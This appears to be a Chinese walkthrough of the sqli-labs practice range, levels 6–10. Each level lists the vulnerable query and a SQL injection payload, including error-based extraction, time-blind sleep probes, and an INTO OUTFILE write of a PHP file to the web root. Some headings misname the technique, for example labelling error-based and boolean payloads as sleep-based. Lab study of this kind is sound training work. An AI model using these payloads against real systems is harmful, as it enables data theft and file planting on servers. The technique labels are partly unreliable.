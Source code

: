 ### 6、时间盲注sleep [ " ]

```python
# SQL语句
$id = '"'.$id.'"';
SELECT * FROM users WHERE id=$id LIMIT 0,1;
# 过滤语句
无
# Payload
?id=1" and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) --+
```

### 7、Outfile [ ' )) ]

```python
# SQL语句
SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1')) union select 1,database(),3 into outfile 'D:\range\phpstudy2018\PHPTutorial\WWW\sqli-labs-master\Less-7\a.php'--+
```

### 8、时间盲注sleep [ ' ]

```python
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
无
# Payload
?id=1'and left(database(),1)>'s'--+
```

### 9、时间盲注sleep [ ' ]

```python
# SQL语句
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 过滤语句
无
# Payload
1'and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+
```

### 10、时间盲注sleep [ " ]

```python
# SQL语句
$id = '"'.$id.'"';
SELECT * FROM users WHERE id=$id LIMIT 0,1;
# 过滤语句
无
# Payload
1"and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+
```
